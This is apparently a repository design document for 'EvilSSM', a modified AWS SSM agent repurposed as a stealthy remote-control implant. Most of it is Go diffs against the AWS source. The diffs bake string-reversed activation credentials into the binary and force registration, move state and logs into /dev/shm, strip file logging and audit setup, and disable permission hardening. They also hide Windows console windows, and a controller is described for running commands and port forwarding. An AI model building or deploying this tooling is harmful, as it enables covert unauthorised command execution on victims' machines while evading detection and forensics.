






# EvilSSM source differences


> Yes, this is all AI-generated. The diagrams needed alot of guidance, but the overall code differences and the changes we've made using AI was really well documented, so decided to leave this in the repo.  - choi 


## 1. Simplified

EvilSSM packages registration, the persistent agent, and per-task workers into one portable process.



## 2. On-premises authentication

The controller embeds activation material, and the binary forces on-premises registration before starting its in-process runtime.



## 3. Task delivery and execution

Run Command keeps the AWS delivery and file-IPC pipeline while replacing the document-worker process with a goroutine.



## 4. Shell sessions

Session Manager keeps the MGS data-channel protocol while running the session worker and shell under the EvilSSM process.



===

## Comparison basis

This document covers only EvilSSM-specific changes against the original AWS
source stored in `./amazon-ssm-agent`. It uses AWS commit `61d87901` from that
nested repository because it matches EvilSSM's original import; unrelated AWS
history is not included.

Line references are current EvilSSM line numbers. In diff blocks, `-` is AWS
and `+` is EvilSSM. Embedded activation values in `core/agent_parser.go` are
the only redacted source values; duplicating live registration material in
documentation would create another secret-bearing file.

Generated binaries, prose, tests, `vendor/`, `go.mod`, and `go.sum` are omitted
because they contain no additional EvilSSM-specific runtime behavior.

## Modified-file inventory


| EvilSSM file and lines                                             | Functional difference                                                                                                      |
| ------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------- |
| `agent/appconfig/appconfig.go:94`                                  | Do not share managed-instance credentials.                                                                                 |
| `agent/appconfig/constants.go:309`                                 | Restrict identity selection to on-premises registration.                                                                   |
| `agent/appconfig/constants_unix.go:29-187`                         | Move state/config/log paths to `/dev/shm/awsssmcache/` or the executable directory.                                        |
| `agent/appconfig/constants_windows.go:184-241`                     | Make every data, config, worker, update, and session path portable relative to the executable.                             |
| `agent/executers/executers_windows.go:22-36`                       | Hide child-process console windows.                                                                                        |
| `agent/fileutil/fileutil_unix.go:114-133`                          | Accept owner-only permissions without requiring root ownership.                                                            |
| `agent/fileutil/harden.go:11`                                      | Remove the separate directory `0700` hardening mode.                                                                       |
| `agent/fileutil/harden_unix.go:21-51`                              | Stop changing ownership to root.                                                                                           |
| `agent/fileutil/harden_windows.go:19-28`                           | Replace administrator/SYSTEM ACL hardening with a no-op.                                                                   |
| `agent/framework/coremanager/coremanager.go:60-68,86`              | Skip data-folder hardening and bookkeeping-directory creation.                                                             |
| `agent/framework/coremodules/coremodules.go:41-45`                 | Always load health/message service; omit offline and long-running managers.                                                |
| `agent/framework/processor/executer/outofproc/master.go:79-82`     | Add a hook that replaces OS process creation.                                                                              |
| `agent/framework/processor/executer/plugin/plugin.go:140-218`      | Export the session-plugin constructor and disable `aws:updateSsmAgent`.                                                    |
| `agent/hibernation/hibernatelogger_unix.go:24`                     | Move the hibernation log into `/dev/shm`.                                                                                  |
| `agent/inproc/inproc.go:1-190`                                     | New: run agent, document, and session workers as goroutines.                                                               |
| `agent/inproc/process.go:1-44`                                     | New: emulate the worker-process interface with a goroutine.                                                                |
| `agent/log/logger/defaultconfig.go:1-24`                           | Log only to the console; remove rolling files.                                                                             |
| `agent/log/logger/eventlog.go:84`                                  | Stop creating an audit-event directory at initialization.                                                                  |
| `agent/log/logger/log_unix.go:27`                                  | Move the default log directory into `/dev/shm`.                                                                            |
| `agent/managedInstances/fingerprint/hardwareInfo_windows.go:31-79` | Remove WMI/service queries; retain hostname, IP, and MAC fingerprint fields.                                               |
| `agent/managedInstances/vault/fsvault/fsvault.go:138-144`          | Skip recursive vault permission hardening.                                                                                 |
| `agent/session/shell/shell_unix.go:134-135,293-301`                | Use the executing user, including valid UID/GID `0`, instead of creating `ssm-user`.                                       |
| `agent/session/shell/shell_windows.go:72-176`                      | Load WinPTY locally and run sessions in the current user context.                                                          |
| `agent/updateutil/updateutil_unix.go:34`                           | Move legacy updater artifacts into `/dev/shm`.                                                                             |
| `core/agent.go:20-98`                                              | Remove the IPC message bus and construct the core agent directly.                                                          |
| `core/agent_parser.go:34-96,265-279`                               | Decode baked credentials, force first-run registration, continue after success, and omit the extra registration JSON file. |
| `core/app/agent.go:8-107`                                          | Replace worker-container/self-update processes with the in-process worker.                                                 |
| `core/app/bootstrap/bootstrap.go:85`                               | Skip IPC-directory creation.                                                                                               |
| `evilssm-controller.py:1-404`                                      | New: bake credentials, compile/sign, run commands, and manage port forwards.                                               |
| `makefile:2-3,130-132`                                             | Build only `amazon-ssm-agent`; use the Windows GUI subsystem for no-console builds.                                        |


## RAW BEHAVIORAL CHANGES

The eight most impactful EvilSSM changes are shown first and contain the full
set of first-party behavioral modifications.

### 1. Registration and identity are baked and forced

`agent/appconfig/appconfig.go:94` and `agent/appconfig/constants.go:309`:

```diff
- ShareCreds: true,
+ ShareCreds: false,

-var DefaultIdentityConsumptionOrder = []string{"OnPrem", "EC2", "CustomIdentity"}
+var DefaultIdentityConsumptionOrder = []string{"OnPrem"}
```

`core/agent_parser.go:34-96` forces registration with values baked into the
binary. The two value strings are redacted here, but the executable code shape
is unchanged:

```diff
+func reverseString(s string) string {
+    runes := []rune(s)
+    for i, j := 0, len(runes)-1; i < j; i, j = i+1, j-1 {
+        runes[i], runes[j] = runes[j], runes[i]
+    }
+    return string(runes)
+}

 flag.Parse()
+activationID = reverseString("<redacted reversed activation ID>")
+activationCode = reverseString("<redacted reversed activation code>")
+region = "ap-northeast-2"
+register = true
+force = true

-if flag.NFlag() > 0 {
-    // Registration/fingerprint commands exit after processing.
+if register {
+    exitCode := processRegistration(log)
+    if exitCode == 0 {
+        log.Info("Registration successful, continuing to start agent...")
+        return
+    }
+    os.Exit(exitCode)
 }
```

`core/agent_parser.go:265-279` also removes creation of the separate
`registration` JSON file after the vault has been written:

```diff
-reg := map[string]string{"ManagedInstanceID": managedInstanceID, "Region": region}
-var regData []byte
-if regData, err = json.Marshal(reg); err != nil {
-    return "", fmt.Errorf("Failed to marshal registration info. %v", err)
-}
-if err = ioutil.WriteFile(registrationFile, regData, appconfig.ReadWriteAccess); err != nil {
-    return "", fmt.Errorf("Failed to write registration info to file. %v", err)
-}
 return managedInstanceID, nil
```

### 2. Runtime paths are portable and filesystem hardening is reduced

`agent/appconfig/constants_unix.go:29-187` changes privileged locations to a
RAM-backed base and resolves worker/config paths relative to the running
binary:

```diff
+const BaseDir = "/dev/shm/awsssmcache/"
-AgentData = "/var/lib/amazon/ssm/"
+AgentData = BaseDir
-DefaultProgramFolder = "/etc/amazon/ssm/"
-defaultWorkerPath = "/usr/bin/"
+DefaultProgramFolder = BaseDir
+defaultWorkerPath = BaseDir

+DefaultProgramFolder = curdir
+defaultWorkerPath = curdir
+DefaultSSMAgentBinaryPath = filepath.Join(curdir, "amazon-ssm-agent")
+DefaultSSMAgentWorker = filepath.Join(curdir, "ssm-agent-worker")
+DefaultDocumentWorker = filepath.Join(curdir, "ssm-document-worker")
+DefaultSessionWorker = filepath.Join(curdir, "ssm-session-worker")
+DefaultSessionLogger = filepath.Join(curdir, "ssm-session-logger")
```

`agent/appconfig/constants_windows.go:184-241` applies the same portable model
on Windows:

```diff
-SSMDataPath = filepath.Join(programData, SSMFolder)
-DefaultProgramFolder = filepath.Join(EnvProgramFiles, SSMFolder)
-DefaultDataStorePath = filepath.Join(SSMDataPath, "InstanceData")
+curdir, err := filepath.Abs(filepath.Dir(os.Args[0]))
+SSMDataPath = curdir
+DefaultProgramFolder = curdir
+DefaultDataStorePath = filepath.Join(curdir, "InstanceData")
+DefaultPluginPath = filepath.Join(curdir, "Plugins")
+DefaultSSMAgentBinaryPath = filepath.Join(curdir, "amazon-ssm-agent.exe")
+DefaultSessionWorker = filepath.Join(curdir, "ssm-session-worker.exe")
+AppConfigPath = filepath.Join(curdir, AppConfigFileName)
+SeelogFilePath = filepath.Join(curdir, SeelogConfigFileName)
+UpdaterArtifactsRoot = filepath.Join(curdir, "Update")
+SessionFilesPath = filepath.Join(curdir, "Session")
```

The remaining fixed Unix paths are changed directly:

```diff
# agent/log/logger/log_unix.go:27
-DefaultLogDir = "/var/log/amazon/ssm"
+DefaultLogDir = "/dev/shm/awsssmcache/logs"

# agent/hibernation/hibernatelogger_unix.go:24
-filename="/var/log/amazon/ssm/hibernate.log"
+filename="/dev/shm/awsssmcache/logs/hibernate.log"

# agent/updateutil/updateutil_unix.go:34
-legacyUpdaterArtifactsRoot = "/var/log/amazon/ssm/update/"
+legacyUpdaterArtifactsRoot = "/dev/shm/awsssmcache/update/"
```

`agent/fileutil/fileutil_unix.go:114-133` drops the UID-0 requirement and
checks only that group/other permission bits are absent:

```diff
-stat, ok := fileInfo.Sys().(*syscall.Stat_t)
-if !ok {
-    return false, fmt.Errorf("failed to get file ownership info for %v", path)
-}
-if stat.Uid != 0 {
-    return false, fmt.Errorf("file is not owned by root, owned by UID %d", stat.Uid)
-}
-if fileInfo.Mode().Perm()&0022 != 0 {
-    return false, fmt.Errorf("file is writable by non-root users, permissions: %o", fileInfo.Mode().Perm())
-}
-return true, nil
+mode := fileInfo.Mode().Perm()
+if mode&0077 == 0 {
+    return true, nil
+}
+return false, fmt.Errorf("file has incorrect permissions: %o", mode)
```

Hardening is then reduced or disabled in the platform implementations:

```diff
# agent/fileutil/harden.go:11
-RWPermission  os.FileMode = 0600
-RWXPermission os.FileMode = 0700
+RWPermission = 0600

# agent/fileutil/harden_unix.go:38-51
-targetPerm := RWPermission
-if fi.IsDir() {
-    targetPerm = RWXPermission
-}
-if err = os.Chmod(path, targetPerm); err != nil {
-    return
-}
+if fi.Mode()&permissionMask != RWPermission {
+    if err = os.Chmod(path, RWPermission); err != nil {
+        return
+    }
+}
+// DISABLED: Root ownership check removed for portable installation

# agent/fileutil/harden_windows.go:25-28
+// Harden is a no-op for portable installation — no admin-only ACLs needed.
+func Harden(path string) (err error) {
+    return nil
+}

# agent/managedInstances/vault/fsvault/fsvault.go:138-144
-if err = fs.RecursivelyHarden(vaultFolderPath); err != nil {
-    return fmt.Errorf("failed to set permission for vault folder or its content. %v", err)
-}
+// DISABLED: Permission hardening removed for portable installation
+// if err = fs.RecursivelyHarden(vaultFolderPath); err != nil {
+//     return fmt.Errorf("failed to set permission for vault folder or its content. %v", err)
+// }
```

`agent/framework/coremanager/coremanager.go:60-68,86` removes the other bulk
directory setup:

```diff
-if err = fileutil.HardenDataFolder(log, shortInstanceId); err != nil {
-    log.Errorf("error initializing SSM data folder with hardened ACL, %v", err)
-    return
-}
+// DISABLED: Folders already hardened before agent starts

+func initializeBookkeepingLocations(log logger.T, shortInstanceID string) bool {
+    return true
+}
```

### 3. Agent and workers run in one binary and process

`core/agent.go:93-98` removes the message-bus process coordinator:

```diff
-message := messagebus.NewMessageBus(context)
-if err := message.Start(); err != nil {
-    return nil, log, fmt.Errorf("failed to start message bus, %s", err)
-}
-ssmAgentCore := app.NewSSMCoreAgent(context, message)
+ssmAgentCore := app.NewSSMCoreAgent(context)
```

`core/app/agent.go:30-107` replaces the external worker container and
self-updater with one goroutine:

```diff
-func NewSSMCoreAgent(context context.ICoreAgentContext, messageBus messagebus.IMessageBus) CoreAgent {
-    container: longrunningprovider.NewWorkerContainer(context, messageBus),
-    selfupdate: selfupdate.NewSelfUpdater(context),
+func NewSSMCoreAgent(context context.ICoreAgentContext) CoreAgent {
+    inproc.RegisterProcessCreatorSetter(outofproc.SetProcessCreator)
 }

-agent.container.Start()
-go agent.container.Monitor()
+agent.workerStop = make(chan struct{})
+go inproc.RunAgentWorker(log, agent.workerStop)

-agent.container.Stop(reboot.StopTypeHardStop)
+if agent.workerStop != nil {
+    close(agent.workerStop)
+    time.Sleep(2 * time.Second)
+}
```

`agent/framework/processor/executer/outofproc/master.go:79-82` exposes the
replacement point:

```diff
+func SetProcessCreator(creator func(string, []string) (proc.OSProcess, error)) {
+    processCreator = creator
+}
```

The new `agent/inproc/inproc.go` redirects worker creation to goroutines and
contains the former worker entry-point logic:

```go
// lines 40-100
func RunAgentWorker(coreLog log.T, stopChan <-chan struct{}) {
    // Build identity/context/core manager in this process.
    if setProcessCreator != nil {
        setProcessCreator(inProcProcessCreator)
    }
    agent.Start()
    <-stopChan
    agent.Stop()
}

func inProcProcessCreator(name string, argv []string) (proc.OSProcess, error) {
    channelName := argv[0]
    if name == appconfig.DefaultSessionWorker {
        return newInProcProcess(func() { runSessionWorker(channelName) }), nil
    }
    return newInProcProcess(func() { runDocumentWorker(channelName) }), nil
}
```

`agent/inproc/inproc.go:103-190` implements `runSessionWorker` and
`runDocumentWorker` with the original IPC/messaging pipelines. The session
registry is built explicitly because both worker types now share one process:

```go
registry := runpluginutil.PluginRegistry{}
registry[appconfig.PluginNameStandardStream] = plugin.SessionPluginFactory{NewPluginFunc: standardstream.NewPlugin}
registry[appconfig.PluginNameInteractiveCommands] = plugin.SessionPluginFactory{NewPluginFunc: interactivecommands.NewPlugin}
registry[appconfig.PluginNamePort] = plugin.SessionPluginFactory{NewPluginFunc: port.NewPlugin}
registry[appconfig.PluginNameNonInteractiveCommands] = plugin.SessionPluginFactory{NewPluginFunc: noninteractivecommands.NewPlugin}
```

`agent/inproc/process.go:11-44` supplies the process-shaped adapter:

```go
type InProcProcess struct {
    pid int
    startTime time.Time
    done chan struct{}
    once sync.Once
}

func (p *InProcProcess) Kill() error { p.once.Do(func() { close(p.done) }); return nil }
func (p *InProcProcess) Wait() error { <-p.done; return nil }
```

Supporting registry changes are small:

```diff
# agent/framework/processor/executer/plugin/plugin.go:140-144
-newPluginFunc sessionplugin.NewPluginFunc
+NewPluginFunc sessionplugin.NewPluginFunc
-return sessionplugin.NewPlugin(context, f.newPluginFunc)
+return sessionplugin.NewPlugin(context, f.NewPluginFunc)

# agent/framework/coremodules/coremodules.go:41-45
-if !context.AppConfig().Agent.ContainerMode {
-    registeredCoreModules = append(registeredCoreModules, NewCoreModuleWrapper(context.Log(), health.NewHealthCheck(context, ssm.NewService(context))))
-}
+registeredCoreModules = append(registeredCoreModules, NewCoreModuleWrapper(context.Log(), health.NewHealthCheck(context, ssm.NewService(context))))
-if !context.AppConfig().Agent.ContainerMode {
-    if offlineProcessor, err := runcommand.NewOfflineService(context); err == nil {
-        registeredCoreModules = append(registeredCoreModules, NewCoreModuleWrapper(context.Log(), offlineProcessor))
-    }
-    manager.EnsureInitialization(context)
-    if lrpm, err := manager.GetInstance(); err == nil {
-        registeredCoreModules = append(registeredCoreModules, NewCoreModuleWrapper(context.Log(), lrpm))
-    }
-}
```

`makefile:130-132` now emits only the core executable:

```diff
 cd $(GOTEMPCOPYPATH) && GOOS=$(GOOS) GOARCH=$(GOARCH) $(GO_BUILD) -o $(GO_SPACE)/bin/$(GOOS)_$(GOARCH)/amazon-ssm-agent$(EXE_EXT) -v \
     core/agent.go core/agent_$(GO_CORE_SRC_TYPE).go core/agent_parser.go
-cd $(GOTEMPCOPYPATH) && GOOS=$(GOOS) GOARCH=$(GOARCH) $(GO_BUILD) -o $(GO_SPACE)/bin/$(GOOS)_$(GOARCH)/ssm-agent-worker$(EXE_EXT) -v \
-    agent/agent.go agent/agent_$(GO_WORKER_SRC_TYPE).go agent/agent_parser.go
-cd $(GOTEMPCOPYPATH) && GOOS=$(GOOS) GOARCH=$(GOARCH) $(GO_BUILD) -o $(GO_SPACE)/bin/$(GOOS)_$(GOARCH)/updater$(EXE_EXT) -v \
-    agent/update/updater/updater.go agent/update/updater/updater_$(GO_WORKER_SRC_TYPE).go
-cd $(GOTEMPCOPYPATH) && GOOS=$(GOOS) GOARCH=$(GOARCH) $(GO_BUILD) -o $(GO_SPACE)/bin/$(GOOS)_$(GOARCH)/ssm-cli$(EXE_EXT) -v \
-    agent/cli-main/cli-main.go
-cd $(GOTEMPCOPYPATH) && GOOS=$(GOOS) GOARCH=$(GOARCH) $(GO_BUILD) -o $(GO_SPACE)/bin/$(GOOS)_$(GOARCH)/ssm-document-worker$(EXE_EXT) -v \
-    agent/framework/processor/executer/outofproc/worker/main.go
-cd $(GOTEMPCOPYPATH) && GOOS=$(GOOS) GOARCH=$(GOARCH) $(GO_BUILD) -o $(GO_SPACE)/bin/$(GOOS)_$(GOARCH)/ssm-session-logger$(EXE_EXT) -v \
-    agent/session/logging/main.go
-cd $(GOTEMPCOPYPATH) && GOOS=$(GOOS) GOARCH=$(GOARCH) $(GO_BUILD) -o $(GO_SPACE)/bin/$(GOOS)_$(GOARCH)/ssm-session-worker$(EXE_EXT) -v \
-    agent/framework/processor/executer/outofproc/sessionworker/main.go
-cd $(GOTEMPCOPYPATH) && GOOS=$(GOOS) GOARCH=$(GOARCH) $(GO_BUILD) -o $(GO_SPACE)/bin/$(GOOS)_$(GOARCH)/ssm-setup-cli$(EXE_EXT) -v \
-    agent/setupcli/setupcli.go
```

### 4. Run as the launching user without requiring root or local administrator

EvilSSM does not elevate privileges or create/impersonate `ssm-user` for the
default session path. Commands run with the launching account's existing rights.

On Linux, original SSM creates `ssm-user` when the agent is root; EvilSSM uses
the launching user instead
(`amazon-ssm-agent/agent/session/shell/shell_unix.go:134-143`;
`agent/session/shell/shell_unix.go:134-135`):

```diff
-if os.Geteuid() == 0 {
-    // Create ssm-user + sudo priv
-    u.CreateLocalAdminUser(log)
-    sessionUser = appconfig.DefaultRunAsUserName
-} else {
-    user, _ := user.Current()
-    sessionUser = user.Username
-}
+user, _ := user.Current()
+sessionUser = user.Username
```

It also accepts UID/GID `0`, allowing a root-launched agent to remain root
(`amazon-ssm-agent/agent/session/shell/shell_unix.go:301-306`;
`agent/session/shell/shell_unix.go:293-298`):

```diff
-if uid > 0 && gid > 0 {
-    return uint32(uid), uint32(gid), groupIds, nil
-}
-return 0, 0, nil, errors.New("invalid uid and gid")
+if uid < 0 || gid < 0 {
+    return 0, 0, nil, errors.New("invalid uid and gid")
+}
+return uint32(uid), uint32(gid), groupIds, nil
```

On Windows, the original password reset, local-admin creation, and
`ssm-user` impersonation path is removed
(`amazon-ssm-agent/agent/session/shell/shell_windows.go:101-151,202-220`;
`agent/session/shell/shell_windows.go:108-112,165-180`):

```diff
-appConfig := plugin.context.AppConfig()
-if !shellProps.Windows.RunAsElevated && !isSessionLogger && !appConfig.Agent.ContainerMode {
-    newPassword, err = u.GeneratePasswordForDefaultUser()
-    userExists, err = u.ChangePassword(appconfig.DefaultRunAsUserName, newPassword)
-    if !userExists {
-        newPassword, err = u.CreateLocalAdminUser(log)
-    } else {
-        err = u.EnableLocalUser(log)
-    }
-    plugin.logger.transcriptDirPath, err = plugin.startPtyAsUser(log, config, appconfig.DefaultRunAsUserName, newPassword, fullCmdToPty)
-}
+if !isSessionLogger && appconfig.PluginNameNonInteractiveCommands == plugin.name {
+    return plugin.startExecCmd(cmdStr, log, config)
+} else {
+    pty, err = winpty.Start(winptyDllFilePath, fullCmdToPty, ...)
+}
-cmd.SysProcAttr = &syscall.SysProcAttr{Token: token}
-u.DisableLocalUser(log)
```

### 5. Windows processes hide console windows

`agent/executers/executers_windows.go:31-36` suppresses consoles for all child
commands:

```diff
-// nothing to do on windows
+command.SysProcAttr = &syscall.SysProcAttr{
+    HideWindow: true,
+    CreationFlags: 0x08000000,
+}
```

The main Windows binary is also linked as a GUI program (`makefile:2`):

```diff
-GO_BUILD_NOPIE := CGO_ENABLED=0 go build -ldflags "-s -w" -trimpath
+GO_BUILD_NOPIE := CGO_ENABLED=0 go build -trimpath -ldflags="-H=windowsgui"
```

### 6. File logging, audit setup, and Windows fingerprinting are reduced

Default rolling files and eager audit/IPC directories are removed:

```diff
# agent/log/logger/defaultconfig.go:4-18
-return LoadLog(DefaultLogDir, LogFile, seelog.InfoStr)
+return LoadLog(DefaultLogDir, LogFile, "info")
-logConfig += `<rollingfile type="size" filename="` + logFilePath + `" maxsize="30000000" maxrolls="5"/>`
-logConfig += `<rollingfile type="size" filename="` + errorFilePath + `" maxsize="10000000" maxrolls="5"/>`
 <console formatid="fmtinfo"/>

# agent/log/logger/eventlog.go:84
-e.fileSystem.MkdirAll(e.eventLogPath, appconfig.ReadWriteExecuteAccess)

# core/app/bootstrap/bootstrap.go:85
-err = bs.createIPCFolder()
-if err != nil {
-    return nil, logger.Errorf("failed to create IPC folder, %v", err)
-}
```

Windows fingerprinting keeps network identity but removes WMI hardware queries
(`agent/managedInstances/fingerprint/hardwareInfo_windows.go:76-79`):

```diff
-winManager, err := mgr.Connect()
-wmiService, err := winManager.OpenService(wmiServiceName)
-waitForService(log, wmiService)
-hardwareHash[hardwareID], _ = csproductUuid(log, wmiInterface)
-hardwareHash["processor-hash"], _ = processorInfoHash(log, wmiInterface)
-hardwareHash["memory-hash"], _ = memoryInfoHash(log, wmiInterface)
-hardwareHash["bios-hash"], _ = biosInfoHash(log, wmiInterface)
-hardwareHash["disk-info"], _ = diskInfoHash(log, wmiInterface)
 hardwareHash["hostname-info"], _ = hostnameInfo()
